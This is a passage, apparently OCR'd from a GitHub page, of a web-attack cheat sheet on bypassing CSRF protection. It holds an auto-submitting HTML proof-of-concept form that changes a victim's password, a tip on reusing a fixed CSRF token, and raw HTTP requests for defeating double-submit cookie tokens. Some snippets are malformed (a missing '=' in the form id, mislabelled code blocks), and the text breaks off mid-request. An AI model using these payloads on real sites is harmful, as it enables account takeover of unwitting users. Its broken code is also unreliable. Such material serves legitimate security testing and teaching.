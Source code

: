       ```html
      POST /password_change
      Host: email.example.com
      Cookie: session_cookie=YOUR_SESSION_COOKIE
      (POST request body)
      new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
      ----------------------------------
      <html>
       <form method="POST" action="<https://email.example.com/password_change>" id"csrf-form">
       <input type="text" name="new_password" value="abc123">
       <input type="text" name="csrf_token" value="871caef0757a4ac9691aceb9aad8b65b ">
       <input type='submit' value="Submit">
      </form>
       <script>document.getElementById("csrf-form").submit();</script>
      </html>
      --------------------------------------------------------------
      ## Expected Code
      def validate_token():
       if request.csrf_token:
      	 if (request.csrf_token in valid_csrf_tokens):
      			 pass
      	 else:
      		 throw_error("CSRF token incorrect. Request rejected.")
      [...]
      def process_state_changing_action():
       	 validate_token()
      	 execute_action()
      ------------------------------------------------------------------------
      # Exploit 
      If the token is fixed value for the account then change the email to victim's email and make CSRF poc
      with the old CSRF token from old requests
      ```
  *   **Bypass Double submit CSRF tokens**

      ```python
      # Valid 
      POST /password_change
      Host: email.example.com
      Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=871caef0757a4ac9691aceb9aad8b65b
      (POST request body)
      new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
      --------------------------
      # Invalid
      POST /password_change
      Host: email.example.com
      Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=1aceb9aad8b65b871caef0757a4ac969
      (POST request body)
      new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
      ---------------------------------------
      # Bypass 
      POST /password_change
      Host: email.example.com
      Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token
      (POST request body)